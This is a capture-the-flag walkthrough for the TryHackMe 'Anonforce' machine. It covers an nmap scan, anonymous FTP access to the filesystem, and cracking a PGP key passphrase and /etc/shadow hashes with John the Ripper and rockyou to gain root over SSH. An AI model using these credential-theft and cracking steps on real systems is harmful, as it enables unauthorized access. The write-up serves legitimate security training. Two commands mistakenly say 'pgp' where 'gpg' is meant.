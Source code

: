 ```bash
# PLATFORM          . THM
# CTF NAME          . Anonforce
# DESCRIPTION       . boot2root machine for FIT and bsides guatemala CTF
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/bsidesgtanonforce
```

```
sudo nmap -sSVC -T5 -p- 10.10.49.218 -oN anonforce
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Jan 08 22:14 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x  101 0        0               0 Jan 08 22:14 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Jan 08 22:14 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Jan 08 22:14 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8af9483e11a1aafcb78671d02af624e7 (RSA)
|   256 735dde9a886e647ae187ec65ae1193e3 (ECDSA)
|_  256 56f99f24f152fc16b77ba3e24f17b4ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 21 

- FTP seems to contain the entire file system.

- We're able to get the flag from `/home/melodias/user.txt`.

- Also, in the root directory we can see a directory that doesn't belong to the file system hierarchy by default and to which we have full access: `notread`.

- This contains 2 files, a PGP encrypted-file and its key.

- I've downloaded them both and did the following steps to reveal the content of the .pgp file

```
gpg --import private.asc
```

- But this failed as it asked for a passphase which I didn't had.

```bash
# extract the hash of the .asc file to a format readable by john.
/opt/john/run/gpg2john private.asc > hash

# bruteforce the passphase against the rockyou.txt wordlist
/opt/john/run/john hash -w=/usr/share/wordlists/rockyou.txt
```

```
x{REDACTED}0          (anonforce)     
```

- Now that we got the passphase, we can import the key and decrypt the pgp file

```
pgp --import private.asc
pgp --decrypt backup.pgp 
```

- This revealed the content of `/etc/shadow` file (that hopefully is still unaltered on the server, since this is a 'backup'.)

- What I did next was to save the content in a file and use john to try to bruteforce the hashes.

```
/opt/john/run/john shadow -w=/usr/share/wordlists/rockyou.txt
```

```
h{redacted}i           (root)     
```

- SSH into the box using the credentials above.

- The last flag is located in `/root/root.txt`.

